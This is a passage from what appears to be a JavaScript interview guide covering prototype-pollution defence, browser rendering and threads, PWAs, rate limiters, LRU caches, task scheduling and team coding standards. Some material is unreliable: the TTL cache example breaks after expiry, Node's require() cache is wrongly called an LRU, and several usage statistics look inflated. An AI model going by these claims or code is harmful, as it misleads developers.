      { required: ['constructor'] },
      { required: ['prototype'] },
    ]
  }
};
const validate = ajv.compile(schema);
if (!validate(userInput)) throw new Error('Invalid input');
```

**Real-World Use Case:**

CVE-2019-10744 was a critical prototype pollution vulnerability in Lodash\'s `_.defaultsDeep`, `_.merge`, and `_.mergeWith` functions — affecting millions of npm packages that depended on Lodash. An attacker who could control the source of a merge call could inject `isAdmin`, `debug`, or even override `toString`/`valueOf` in ways that caused RCE in server-side template engines. The fix (Lodash 4.17.12) added explicit key blocklist checks for `__proto__`, `prototype`, and `constructor`. This vulnerability demonstrates why sanitising keys in all recursive object-processing functions is a security requirement, not just a defensive nicety.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 29. Browser Internals

<br>

## Q. What is the browser rendering pipeline, and what triggers a reflow vs. a repaint?

The browser converts HTML, CSS, and JavaScript into pixels on screen through a sequence of steps known as the **Critical Rendering Path (CRP)**:

```
HTML parsing → DOM Tree
CSS parsing  → CSSOM Tree
               ↓
           Render Tree (DOM + CSSOM — only visible nodes)
               ↓
           Layout (Reflow) — computes geometry: position, size, box model
               ↓
           Paint — rasterises each layer to pixel bitmaps
               ↓
           Compositing — GPU assembles layers in correct order
```

**Reflow (Layout):** Recalculation of element geometry. Triggered by any change that affects the size or position of elements. It is expensive because it may cascade — changing one element\'s size can force recalculation of its entire subtree and ancestors.

**Repaint:** Redrawing pixels where geometry has not changed but visual appearance has (colour, opacity, visibility). Less expensive than reflow but still non-trivial.

**Compositing only:** The cheapest operation — moving or animating a composited layer (using `transform` or `opacity`) without triggering layout or paint.

**What triggers reflow:**
- Reading layout properties: `offsetWidth`, `offsetHeight`, `clientWidth`, `scrollTop`, `getBoundingClientRect()`
- Modifying DOM structure (insert, delete, move nodes)
- Changing styles that affect geometry: `width`, `height`, `padding`, `margin`, `border`, `font-size`
- Window resize

**What triggers repaint only:**
- `color`, `background-color`, `border-color`, `outline`, `box-shadow`, `visibility`

**What triggers compositing only (cheapest):**
- `transform: translate/scale/rotate`
- `opacity`
- `will-change: transform`

```js
// ── Layout thrashing — reading and writing in alternation ─────────────────────
// ❌ Forces browser to reflow on every iteration (up to 60 reflows for 60 items)
const items = document.querySelectorAll('.item');
items.forEach(item => {
  const width = item.offsetWidth; // READ — forces reflow to get current value
  item.style.width = (width * 1.1) + 'px'; // WRITE — invalidates layout
  // Next iteration: READ again — must reflow to get updated value → thrashing
});

// ✅ Batch reads first, then writes — one reflow total
const widths = Array.from(items).map(item => item.offsetWidth); // all reads
items.forEach((item, i) => {
  item.style.width = (widths[i] * 1.1) + 'px'; // all writes
});

// ── requestAnimationFrame for visual updates ──────────────────────────────────
// ✅ Reads before rAF, writes inside rAF — aligned with browser paint cycle
let pendingUpdate = false;

function scheduleUpdate() {
  if (pendingUpdate) return;
  pendingUpdate = true;
  requestAnimationFrame(() => {
    // Perform DOM writes here — browser will paint after this callback
    applyDOMUpdates();
    pendingUpdate = false;
  });
}

// ── Compositing-only animations — use transform, not top/left ─────────────────
// ❌ Causes reflow on every frame (top/left change geometry)
element.style.top  = `${newY}px`;
element.style.left = `${newX}px`;

// ✅ GPU composited — no reflow, no repaint
element.style.transform = `translate(${newX}px, ${newY}px)`;

// ── will-change hint — promotes to own compositor layer ──────────────────────
// Use sparingly — each layer consumes GPU memory
const modal = document.querySelector('.modal');
// Before animation starts:
modal.style.willChange = 'transform, opacity';
// After animation ends (important — remove to free GPU memory):
modal.addEventListener('transitionend', () => {
  modal.style.willChange = 'auto';
}, { once: true });

// ── FastDOM library pattern — micro-task batching ────────────────────────────
// FastDOM queues reads and writes and executes them in batches
import fastdom from 'fastdom';

fastdom.measure(() => {
  const h = element.offsetHeight; // read phase
  fastdom.mutate(() => {
    element.style.height = (h + 20) + 'px'; // write phase — no thrashing
  });
});
```

**Real-World Use Case:**

Google Maps' JavaScript SDK moves map tiles using `transform: translate3d(x, y, 0)` instead of `top`/`left` positioning — this keeps tile movement on the GPU compositor thread, achieving smooth 60fps panning even while the CPU is busy parsing new tile data. Twitter\'s PWA team found a 50% reduction in jank by auditing all `offsetWidth`/`clientHeight` reads and batching them before DOM writes using `requestAnimationFrame` — measured via the "Layout" track in Chrome DevTools Performance panel.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between the browser\'s main thread and compositor thread, and how do you offload work?

The browser\'s **main thread** runs JavaScript, handles layout, style calculation, and paint preparation — it can only do one thing at a time. The **compositor thread** (and its raster threads) runs on a separate OS thread and handles compositing pre-painted layers into the final frame — it can run independently of JavaScript. When an animation only affects composited properties (`transform`, `opacity`), it runs entirely on the compositor thread and is immune to main-thread JavaScript jank.

**Offloading strategies:**

| Technique | Offloads to | Use case |
|---|---|---|
| CSS `transform`/`opacity` animations | Compositor thread | Visual animations that should not block on JS |
| **Web Workers** | Separate thread (no DOM access) | CPU-intensive computation |
| **OffscreenCanvas** | Worker thread | Canvas rendering, image processing |
| **Service Worker** | Separate thread | Network interception, caching |
| **Scheduler API** (`scheduler.postTask`) | Main thread, prioritised | Task yielding to prevent long tasks |

```js
// ── Web Worker: offload heavy computation ─────────────────────────────────────
// worker.js (runs in separate thread — no DOM, no window)
self.onmessage = function ({ data: { items } }) {
  // Heavy computation — does not block main thread
  const result = items
    .filter(item => item.score > 0.8)
    .sort((a, b) => b.score - a.score)
    .slice(0, 100);

  self.postMessage({ result });
};

// main.js
const worker = new Worker('./worker.js');

worker.postMessage({ items: largeDataset }); // send data

worker.onmessage = ({ data: { result } }) => {
  renderResults(result); // back on main thread — update DOM
};

// ── OffscreenCanvas: image processing in a worker ─────────────────────────────
// main.js
const canvas  = document.querySelector('#canvas');
const offscreen = canvas.transferControlToOffscreen();
const worker2 = new Worker('./canvas-worker.js');
worker2.postMessage({ canvas: offscreen }, [offscreen]); // transfer ownership

// canvas-worker.js
self.onmessage = ({ data: { canvas } }) => {
  const ctx = canvas.getContext('2d');
  // Draw, process, filter — all off main thread
  ctx.filter = 'grayscale(100%)';
  ctx.drawImage(imageBitmap, 0, 0);
};

// ── scheduler.postTask — yield to higher-priority work ────────────────────────
async function processLargeList(items) {
  const CHUNK = 100;
  const results = [];

  for (let i = 0; i < items.length; i += CHUNK) {
    const chunk = items.slice(i, i + CHUNK);
    results.push(...processChunk(chunk));

    // Yield to allow input events and rendering between chunks
    if ('scheduler' in window) {
      await scheduler.postTask(() => {}, { priority: 'user-blocking' });
    } else {
      await new Promise(resolve => setTimeout(resolve, 0)); // fallback
    }
  }
  return results;
}

// ── Long Task detection — measure main thread blocking ────────────────────────
const observer = new PerformanceObserver(list => {
  list.getEntries().forEach(entry => {
    if (entry.duration > 50) { // tasks > 50ms block input response
      console.warn(`Long task: ${entry.duration.toFixed(0)}ms`, entry.attribution);
    }
  });
});
observer.observe({ entryTypes: ['longtask'] });
```

**Real-World Use Case:**

Figma\'s browser-based design tool compiles its rendering engine to WebAssembly and runs it in a Web Worker. All geometry calculations, bezier path operations, and viewport transformations execute off the main thread. The main thread handles only user input events and sends commands to the worker via `postMessage`. This architecture achieves 60fps canvas rendering even for documents with tens of thousands of vector objects — tasks that would be completely impossible on the main thread. Similarly, Google Sheets runs formula calculation in a Web Worker, keeping the spreadsheet UI responsive during long recalculations.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 30. Progressive Web Apps (PWA)

<br>

## Q. What is a Progressive Web App (PWA)?

A **Progressive Web App (PWA)** is a web application that uses modern web APIs and progressive enhancement strategies to deliver an app-like experience — including offline support, push notifications, and home-screen installation — directly through a browser, without an app store.

**Core characteristics:**

| Pillar | Description |
|--------|-------------|
| **Reliable** | Loads instantly and works offline via service workers and caching |
| **Fast** | Responds quickly to user interactions |
| **Engaging** | Feels like a native app (full-screen, push notifications, home-screen icon) |

**PWA checklist:**

* Served over HTTPS
* Has a valid Web App Manifest
* Registers a service worker with a fetch handler
* Responds with a 200 when offline

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is a Web App Manifest?

The **Web App Manifest** (`manifest.json`) is a JSON file that tells the browser how to install the app on a device\'s home screen and how it should appear when launched.

**`manifest.json`:**

```json
{
  "name": "My Awesome App",
  "short_name": "MyApp",
  "description": "A sample PWA",
  "start_url": "/",
  "display": "standalone",
  "background_color": "#ffffff",
  "theme_color": "#317EFB",
  "orientation": "portrait",
  "icons": [
    {
      "src": "/icons/icon-192.png",
      "sizes": "192x192",
      "type": "image/png",
      "purpose": "any maskable"
    },
    {
      "src": "/icons/icon-512.png",
      "sizes": "512x512",
      "type": "image/png"
    }
  ]
}
```

**Link it in `index.html`:**

```html
<link rel="manifest" href="/manifest.json">
<meta name="theme-color" content="#317EFB">
```

**Key `display` modes:**

| Mode | Description |
|------|-------------|
| `standalone` | Looks like a native app (no browser UI) |
| `fullscreen` | Hides all browser and system UI |
| `minimal-ui` | Minimal browser controls |
| `browser` | Regular browser tab |

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are service workers and caching strategies in PWA?

A **service worker** is a JavaScript file that runs in a separate worker thread, acting as a network proxy between the web app and the network. It enables offline support, background processing, and push notifications.

**Registering a service worker:**

```js
// index.js
if ('serviceWorker' in navigator) {
  navigator.serviceWorker.register('/sw.js')
    .then(reg  => console.log('SW registered:', reg.scope))
    .catch(err => console.error('SW registration failed:', err));
}
```

**Common caching strategies (`sw.js`):**

**1. Cache First (offline-first for static assets):**

```js
self.addEventListener('fetch', event => {
  event.respondWith(
    caches.match(event.request).then(cached => {
      return cached || fetch(event.request);
    })
  );
});
```

**2. Network First (always fresh data, fallback to cache):**

```js
self.addEventListener('fetch', event => {
  event.respondWith(
    fetch(event.request)
      .then(res => {
        const clone = res.clone();
        caches.open('dynamic-v1').then(cache => cache.put(event.request, clone));
        return res;
      })
      .catch(() => caches.match(event.request))
  );
});
```

**3. Stale-While-Revalidate (serve cache immediately, update in background):**

Return cached response immediately for speed while fetching a fresh version in the background for the next request.

**Lifecycle events:**

```js
self.addEventListener('install',  e => { /* cache static assets */ });
self.addEventListener('activate', e => { /* clean old caches */ });
self.addEventListener('fetch',    e => { /* intercept requests */ });
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is Background Sync in PWA?

**Background Sync** allows a PWA to defer actions until the user has a stable network connection. For example, if a user submits a form while offline, the sync can be retried automatically when connectivity is restored — even if the app is no longer open.

**How to use Background Sync:**

```js
// 1. Register a sync tag when the action is queued
async function saveData(data) {
  await storeInIndexedDB(data); // persist locally first

  if ('serviceWorker' in navigator && 'SyncManager' in window) {
    const reg = await navigator.serviceWorker.ready;
    await reg.sync.register('sync-data');
  }
}

// 2. Handle the sync event in the service worker (sw.js)
self.addEventListener('sync', event => {
  if (event.tag === 'sync-data') {
    event.waitUntil(
      getFromIndexedDB().then(data => fetch('/api/save', {
        method: 'POST',
        body: JSON.stringify(data)
      }))
    );
  }
});
```

*Note: Background Sync is currently supported in Chrome and Edge; Firefox and Safari have limited support.*

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are push notifications in PWA?

**Push Notifications** allow a server to send messages to a user\'s device even when the PWA is not open in the browser, using the **Push API** and **Notifications API** together.

**Flow:**

1. App requests notification permission from the user.
2. App subscribes to the browser\'s push service (generates a unique subscription endpoint).
3. Subscription is sent to the app\'s server.
4. Server sends a push message to the endpoint via the Web Push Protocol.
5. Service worker receives the push event and shows a notification.

**Step 1 — Request permission:**

```js
const permission = await Notification.requestPermission();
if (permission !== 'granted') return;
```

**Step 2 — Subscribe:**

```js
const reg = await navigator.serviceWorker.ready;
const subscription = await reg.pushManager.subscribe({
  userVisibleOnly: true,
  applicationServerKey: urlBase64ToUint8Array(PUBLIC_VAPID_KEY)
});
await fetch('/api/subscribe', {
  method: 'POST',
  body: JSON.stringify(subscription)
});
```

**Step 3 — Handle push in service worker (`sw.js`):**

```js
self.addEventListener('push', event => {
  const data = event.data.json();
  event.waitUntil(
    self.registration.showNotification(data.title, {
      body:  data.body,
      icon:  '/icons/icon-192.png',
      badge: '/icons/badge.png',
      data:  { url: data.url }
    })
  );
});

self.addEventListener('notificationclick', event => {
  event.notification.close();
  event.waitUntil(clients.openWindow(event.notification.data.url));
});
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is Workbox?

**Workbox** is a set of libraries from Google that simplifies service worker development. It provides production-ready caching strategies, routing, background sync, and precaching with minimal boilerplate.

**Installation:**

```bash
npm install workbox-webpack-plugin --save-dev   # Webpack integration
npm install workbox-window                       # Runtime helper for page
```

**Webpack plugin (`webpack.config.js`):**

```js
const { GenerateSW } = require('workbox-webpack-plugin');

module.exports = {
  plugins: [
    new GenerateSW({
      clientsClaim: true,
      skipWaiting: true
    })
  ]
};
```

**Manual service worker with Workbox strategies (`sw.js`):**

```js
import { registerRoute }          from 'workbox-routing';
import { CacheFirst, NetworkFirst, StaleWhileRevalidate } from 'workbox-strategies';
import { precacheAndRoute }        from 'workbox-precaching';

// Precache build artifacts
precacheAndRoute(self.__WB_MANIFEST);

// Cache-first for images
registerRoute(
  ({ request }) => request.destination === 'image',
  new CacheFirst({ cacheName: 'images', plugins: [/* expiry plugin */] })
);

// Network-first for API calls
registerRoute(
  ({ url }) => url.pathname.startsWith('/api/'),
  new NetworkFirst({ cacheName: 'api-cache' })
);

// Stale-while-revalidate for fonts
registerRoute(
  ({ url }) => url.origin === 'https://fonts.googleapis.com',
  new StaleWhileRevalidate({ cacheName: 'google-fonts' })
);
```

**Workbox modules:**

| Module | Purpose |
|--------|---------|
| `workbox-routing` | Route network requests to strategies |
| `workbox-strategies` | CacheFirst, NetworkFirst, StaleWhileRevalidate, etc. |
| `workbox-precaching` | Precache and serve build artifacts |
| `workbox-background-sync` | Queue and replay failed requests |
| `workbox-expiration` | Expire cached items by age or count |
| `workbox-push-notifications` | Handle push notification routing |

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 31. Complex Problem Solving

<br>

## Q. Implement a rate limiter that allows at most N requests per window — a real-world API throttling problem.

Rate limiting is a core infrastructure concern for APIs, preventing abuse, protecting downstream services, and enforcing fair-use policies. There are several algorithms; the two most practical are the **Fixed Window** and **Sliding Window** counters, and the **Token Bucket** (smooth bursting).

```js
// ── 1. Fixed Window Rate Limiter ──────────────────────────────────────────────
// Simple: N requests per fixed time window per key
class FixedWindowRateLimiter {
  #windows  = new Map(); // key → { count, resetAt }
  #limit;
  #windowMs;

  constructor(limit, windowMs) {
    this.#limit    = limit;
    this.#windowMs = windowMs;
  }

  isAllowed(key) {
    const now = Date.now();
    let window = this.#windows.get(key);

    if (!window || now >= window.resetAt) {
      window = { count: 0, resetAt: now + this.#windowMs };
      this.#windows.set(key, window);
    }

    if (window.count >= this.#limit) return false;
    window.count++;
    return true;
  }
}

// ── 2. Sliding Window Rate Limiter (precise, using timestamp log) ─────────────
class SlidingWindowRateLimiter {
  #requests = new Map(); // key → timestamps[]
  #limit;
  #windowMs;

  constructor(limit, windowMs) {
    this.#limit    = limit;
    this.#windowMs = windowMs;
  }

  isAllowed(key) {
    const now    = Date.now();
    const cutoff = now - this.#windowMs;

    let timestamps = this.#requests.get(key) ?? [];
    // Evict timestamps outside the window
    timestamps = timestamps.filter(ts => ts > cutoff);

    if (timestamps.length >= this.#limit) {
      this.#requests.set(key, timestamps);
      return false;
    }

    timestamps.push(now);
    this.#requests.set(key, timestamps);
    return true;
  }
}

// ── 3. Token Bucket (allows bursting up to bucket capacity) ──────────────────
class TokenBucket {
  #buckets     = new Map(); // key → { tokens, lastRefill }
  #capacity;
  #refillRate; // tokens per ms

  constructor(capacity, refillRatePerSecond) {
    this.#capacity   = capacity;
    this.#refillRate = refillRatePerSecond / 1000;
  }

  consume(key, tokens = 1) {
    const now    = Date.now();
    let bucket   = this.#buckets.get(key);

    if (!bucket) {
      bucket = { tokens: this.#capacity, lastRefill: now };
      this.#buckets.set(key, bucket);
    }

    // Refill based on elapsed time
    const elapsed       = now - bucket.lastRefill;
    bucket.tokens       = Math.min(
      this.#capacity,
      bucket.tokens + elapsed * this.#refillRate
    );
    bucket.lastRefill   = now;

    if (bucket.tokens < tokens) return false;
    bucket.tokens -= tokens;
    return true;
  }
}

// ── Express middleware using Sliding Window ───────────────────────────────────
const apiLimiter = new SlidingWindowRateLimiter(100, 60_000); // 100 req/min

function rateLimitMiddleware(req, res, next) {
  const key = req.ip; // or req.user?.id for per-user limiting

  if (!apiLimiter.isAllowed(key)) {
    return res.status(429).json({
      error: 'Too Many Requests',
      retryAfter: 60,
    });
  }
  next();
}

app.use('/api', rateLimitMiddleware);
```

**Real-World Use Case:**

GitHub\'s REST API uses a sliding window rate limit of 5,000 requests/hour for authenticated users. Stripe uses token bucket semantics for their API — allowing short bursts (e.g., batch operations) up to a ceiling while enforcing a steady-state throughput. Cloudflare\'s Workers implement rate limiting at the edge using Durable Objects as distributed shared state counters, enabling per-IP or per-user limits across a globally distributed network without a centralised database bottleneck.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Implement an LRU (Least Recently Used) cache — a classic data structure interview problem.

An **LRU cache** evicts the least recently accessed entry when at capacity. The target complexity is **O(1) for both `get` and `put`**. The key insight: a **doubly linked list** (for O(1) insertion/deletion from any position) combined with a **HashMap** (for O(1) key lookup) achieves this. JavaScript\'s `Map` preserves insertion order and supports O(1) `get`/`set`/`delete`, making it a natural LRU implementation tool.

```js
class LRUCache {
  #capacity;
  #cache; // Map preserves insertion order — oldest at front, newest at back

  constructor(capacity) {
    if (capacity < 1) throw new RangeError('Capacity must be >= 1');
    this.#capacity = capacity;
    this.#cache    = new Map();
  }

  get(key) {
    if (!this.#cache.has(key)) return -1;

    // Move to end (most recently used) by delete + re-insert
    const value = this.#cache.get(key);
    this.#cache.delete(key);
    this.#cache.set(key, value);
    return value;
  }

  put(key, value) {
    if (this.#cache.has(key)) {
      this.#cache.delete(key); // remove old position
    } else if (this.#cache.size >= this.#capacity) {
      // Evict least recently used — first key in Map (oldest insertion)
      this.#cache.delete(this.#cache.keys().next().value);
    }
    this.#cache.set(key, value); // insert at end (most recently used)
  }

  get size()  { return this.#cache.size; }
  get keys()  { return [...this.#cache.keys()]; }

  // Useful for debugging — returns entries from LRU to MRU
  toArray() {
    return [...this.#cache.entries()];
  }
}

// ── Verification ──────────────────────────────────────────────────────────────
const cache = new LRUCache(3);

cache.put('a', 1); // cache: [a]
cache.put('b', 2); // cache: [a, b]
cache.put('c', 3); // cache: [a, b, c]

cache.get('a');    // access 'a' → moves to MRU: [b, c, a]
cache.put('d', 4); // capacity exceeded → evict LRU ('b'): [c, a, d]

console.log(cache.get('b')); // -1 — evicted
console.log(cache.get('c')); // 3  — still present
console.log(cache.keys);     // ['a', 'd', 'c'] — c just became MRU

// ── Async LRU with TTL — production pattern ───────────────────────────────────
class AsyncLRUCache {
  #lru;
  #ttlMs;

  constructor(capacity, ttlMs) {
    this.#lru   = new LRUCache(capacity);
    this.#ttlMs = ttlMs;
  }

  get(key) {
    const entry = this.#lru.get(key);
    if (entry === -1) return null;
    if (Date.now() > entry.expiresAt) {
      // Expired — remove and return null
      this.#lru.put(key, undefined); // overwrite with dummy to trigger eviction pattern
      return null;
    }
    return entry.value;
  }

  set(key, value) {
    this.#lru.put(key, { value, expiresAt: Date.now() + this.#ttlMs });
  }
}

// Wrap expensive DB call
const userCache = new AsyncLRUCache(1000, 5 * 60_000); // 1000 users, 5 min TTL

async function getUserById(id) {
  const cached = userCache.get(id);
  if (cached) return cached;

  const user = await db.users.findById(id);
  userCache.set(id, user);
  return user;
}
```

**Real-World Use Case:**

Node.js\'s `require()` module cache is a simplified LRU — modules are cached after first load. The `node-lru-cache` npm package (by Isaac Schlueter, npm\'s creator) is used internally by npm, GitHub\'s backend, and many production Node.js services as an in-process cache layer in front of Redis, reducing database round-trips by 80–95% for hot data (user sessions, feature flags, route configs). Apollo Server\'s in-memory cache uses LRU eviction to bound GraphQL response cache size.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Implement a task scheduler with concurrency control and priority queues.

Production systems frequently need to run async tasks with controlled parallelism — e.g., a batch image processor that must not exceed 5 concurrent S3 uploads, or a web scraper limited to 3 concurrent requests per domain. A scheduler with a priority queue also enables urgent tasks (user-initiated) to preempt background tasks.

```js
// ── Concurrent task scheduler with priority support ───────────────────────────
class TaskScheduler {
  #queue       = [];       // min-heap by priority (lower number = higher priority)
  #running     = 0;
  #concurrency;
  #paused      = false;

  constructor(concurrency = 4) {
    this.#concurrency = concurrency;
  }

  // Add task with priority (1 = highest, 10 = lowest)
  add(fn, priority = 5) {
    return new Promise((resolve, reject) => {
      this.#queue.push({ fn, priority, resolve, reject });
      this.#queue.sort((a, b) => a.priority - b.priority); // sort by priority
      this.#drain();
    });
  }

  #drain() {
    while (
      !this.#paused &&
      this.#running < this.#concurrency &&
      this.#queue.length > 0
    ) {
      const task = this.#queue.shift();
      this.#running++;
      this.#run(task);
    }
  }

  async #run({ fn, resolve, reject }) {
    try {
      const result = await fn();
      resolve(result);
    } catch (err) {
      reject(err);
    } finally {
      this.#running--;
      this.#drain(); // pick up next task
    }
  }

  pause()  { this.#paused = true; }
  resume() { this.#paused = false; this.#drain(); }

  get pending()  { return this.#queue.length; }
  get active()   { return this.#running; }
}

// ── Usage: batch S3 uploads with max 3 concurrent ─────────────────────────────
const scheduler = new TaskScheduler(3);

async function uploadFiles(files) {
  const results = await Promise.all(
    files.map((file, i) =>
      scheduler.add(
        () => uploadToS3(file),
        i < 5 ? 1 : 5 // first 5 files are high priority (above-the-fold thumbnails)
      )
    )
  );
  return results;
}

// ── Retry logic with exponential backoff ──────────────────────────────────────
async function withRetry(fn, { maxAttempts = 3, baseDelayMs = 100, jitter = true } = {}) {
  for (let attempt = 1; attempt <= maxAttempts; attempt++) {
    try {
      return await fn();
    } catch (err) {
      if (attempt === maxAttempts) throw err;

      const delay = baseDelayMs * 2 ** (attempt - 1)
        + (jitter ? Math.random() * 100 : 0);

      await new Promise(resolve => setTimeout(resolve, delay));
    }
  }
}

// ── Integration: scheduler + retry ────────────────────────────────────────────
async function processQueue(items) {
  const s = new TaskScheduler(5);

  return Promise.allSettled(
    items.map(item =>
      s.add(() =>
        withRetry(() => processItem(item), { maxAttempts: 3, baseDelayMs: 200 })
      )
    )
  );
}
```

**Real-World Use Case:**

Vercel\'s build system queues build tasks across their infrastructure with priority given to production deployments over preview deployments. Their internal scheduler ensures that a sudden spike in preview builds (triggered by a large team\'s PRs) cannot starve a production deployment. The `p-queue` npm package (downloaded 50M+ times/month) implements this exact pattern and is used by Gatsby\'s build pipeline, Lighthouse CI, and many CI/CD tools to control the concurrency of async asset processing tasks.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## L5: Technical Lead

<br>

## # 32. Code Review & Standards

<br>

## Q. What are the most critical JavaScript anti-patterns to catch in a code review?

As a tech lead reviewing JavaScript PRs, you are looking beyond syntax — you are evaluating correctness, performance, security, and maintainability. The highest-leverage anti-patterns to enforce in code review fall into five categories:

**1. Mutation of shared state** — produces unpredictable bugs in React, Redux, and concurrent environments.
**2. Floating Promises** — un-awaited async calls silently swallow errors.
**3. `any`-typed or unchecked data boundaries** — `JSON.parse` results, API responses, and `localStorage` reads used without validation.
**4. N+1 query patterns** — sequential `await` inside loops when parallel execution is possible.
**5. Missing cleanup** — `addEventListener`, `setInterval`, WebSocket handlers not removed on component unmount.

```js
// ── Anti-pattern 1: Mutating props / shared state ────────────────────────────
// ❌ Code review flag: direct mutation of function argument
function processCart(cart) {
  cart.items.push(newItem);   // mutates caller\'s object
  cart.total += newItem.price;
  return cart;
}
// ✅ Return new object
function processCart(cart) {
  return {
    ...cart,
    items: [...cart.items, newItem],
    total: cart.total + newItem.price,
  };
}

// ── Anti-pattern 2: Floating Promise (no await, no .catch) ───────────────────
// ❌ Flag: missing await — rejection silently discarded
function handleSubmit(data) {
  saveToDatabase(data);       // fire-and-forget — errors invisible
  showSuccessToast();
}
// ✅ Await and handle errors
async function handleSubmit(data) {
  try {
    await saveToDatabase(data);
    showSuccessToast();
  } catch (err) {
    showErrorToast(err.message);
  }
}

// ── Anti-pattern 3: N+1 sequential await in loop ─────────────────────────────
// ❌ Flag: 50 sequential API calls instead of 1 parallel batch
async function enrichOrders(orderIds) {
  const orders = [];
  for (const id of orderIds) {
    orders.push(await fetchOrder(id)); // 50 calls × 200ms = 10 seconds
  }
  return orders;
}
// ✅ Parallel
async function enrichOrders(orderIds) {
  return Promise.all(orderIds.map(fetchOrder)); // ~200ms total
}

// ── Anti-pattern 4: Unchecked external data ──────────────────────────────────
// ❌ Flag: no validation of JSON.parse result from localStorage
function loadConfig() {
  const raw = localStorage.getItem('config');
  return JSON.parse(raw);   // throws if null or malformed; no shape validation
}
// ✅ Validate at boundary
function loadConfig() {
  try {
    const raw = localStorage.getItem('config');
    if (!raw) return DEFAULT_CONFIG;
    const parsed = JSON.parse(raw);
    // Zod / Yup / manual validation
    return ConfigSchema.parse(parsed);
  } catch {
    return DEFAULT_CONFIG;
  }
}

// ── Anti-pattern 5: Missing cleanup ──────────────────────────────────────────
// ❌ Flag: listener added but never removed
useEffect(() => {
  window.addEventListener('resize', handleResize);
  // Missing return () => window.removeEventListener('resize', handleResize);
}, []);
// ✅ Cleanup returned
useEffect(() => {
  window.addEventListener('resize', handleResize);
  return () => window.removeEventListener('resize', handleResize);
}, []);
```

**Enforcement tools:**
- ESLint rules: `no-floating-promises` (TypeScript ESLint), `no-param-reassign`, `react-hooks/exhaustive-deps`.
- PR checklist template with categories: Security, Performance, Error Handling, Test Coverage.
- Danger.js CI bot to flag PRs that add `TODO` comments, skip tests, or modify security-sensitive files without a security review label.

**Real-World Use Case:**

Airbnb\'s JavaScript style guide (which became the basis of the `eslint-config-airbnb` package used by thousands of teams) codifies many of these anti-patterns as ESLint rules — `no-param-reassign` (prevents prop mutation), `no-await-in-loop` (prevents N+1 patterns), and `no-floating-promises`. Running these rules in CI as a required check means anti-patterns are caught automatically before human review, allowing code review to focus on architecture and business logic rather than mechanical issues.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you establish and enforce JavaScript coding standards across a team?

Coding standards only have value if they are **automated and enforced in CI** — not just documented in a wiki that nobody reads. The standard toolchain for a modern JavaScript team is:

1. **ESLint** — static analysis, catches bugs and style violations.
2. **Prettier** — opinionated code formatter, eliminates all style debates.
3. **TypeScript** (strict mode) — type safety, documents intent.
4. **Husky + lint-staged** — run linting only on changed files pre-commit (fast).
5. **CI gate** — fail the build if lint or type errors exist.
6. **Conventional Commits** — structured commit messages enabling automatic changelog generation.

```jsonc
// package.json — toolchain configuration
{
  "scripts": {
    "lint":      "eslint src --ext .ts,.tsx --max-warnings 0",
    "lint:fix":  "eslint src --ext .ts,.tsx --fix",
    "format":    "prettier --write src",
    "typecheck": "tsc --noEmit",
    "validate":  "npm run typecheck && npm run lint"
  },
  "lint-staged": {
    "*.{ts,tsx}": ["eslint --fix --max-warnings 0", "prettier --write"],
    "*.{json,md,css}": ["prettier --write"]
  }
}
```

```jsonc
// .eslintrc.json — team config (extends shared base)
{
  "extends": [
    "eslint:recommended",
    "plugin:@typescript-eslint/strict-type-checked",
    "plugin:react-hooks/recommended",
    "plugin:import/recommended",
    "prettier"  // must be last — disables ESLint rules that conflict with Prettier
  ],
  "rules": {
    "no-param-reassign": "error",
    "no-console": ["warn", { "allow": ["error", "warn"] }],
    "@typescript-eslint/no-floating-promises": "error",
    "@typescript-eslint/no-explicit-any": "error",
    "import/no-cycle": "error"  // detect circular dependencies
  }
}
```

```yaml
# .github/workflows/ci.yml — CI gate
jobs:
  validate:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4
        with: { node-version: '20', cache: 'npm' }
      - run: npm ci
      - run: npm run validate   # fails build on any lint or type error
      - run: npm test -- --coverage --ci
```

**Introducing standards to an existing codebase:**

```js
// Gradual adoption strategy — eslint-disable budget
// 1. Enable rule, suppress all existing violations with baseline snapshot
// 2. New code must comply; existing violations tracked in ESLINT_BASELINE.json
// 3. Each sprint: reduce baseline violations by 10%

// commitlint.config.js — enforce Conventional Commits
module.exports = {
  extends: ['@commitlint/config-conventional'],
  // Enables: feat:, fix:, chore:, refactor:, perf:, test:, docs:
  // Enables automatic CHANGELOG.md generation and semantic versioning
};
```

**Real-World Use Case:**

Google\'s internal JavaScript style guide is enforced via their `goog.lint` tool. Externally, `eslint-config-google` and `@google/eslint-plugin-closure` implement many of these rules. The Airbnb engineering team open-sourced their entire ESLint config, which is now the most downloaded ESLint config on npm (>100M weekly downloads). The key insight: teams that automate style enforcement spend 40% less time in code review on mechanical issues and more on architecture — measurably improving PR throughput.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 33. Async Strategy & Team Patterns

<br>

## Q. How do you choose and enforce a consistent async pattern across a large codebase?

In a large codebase maintained by multiple teams, inconsistent async patterns — mixing raw Promises, callbacks, `async`/`await`, and RxJS Observables — create cognitive overhead and make error handling unpredictable. A tech lead\'s job is to establish a **single canonical pattern** for each use case and enforce it via tooling.

**Decision framework:**

| Scenario | Recommended pattern | Why |
|---|---|---|
| Single async operation | `async`/`await` | Readable, try/catch error handling |
| Multiple independent operations | `Promise.all` / `Promise.allSettled` | Parallelism |
| Streaming / real-time / complex event composition | RxJS Observables | Cancellation, backpressure, operators |
| Paginated data / large datasets | Async generators + `for await...of` | Lazy, memory-efficient |
| Fire-and-forget with error logging | `.catch(logger.error)` explicitly | Prevents silent failures |
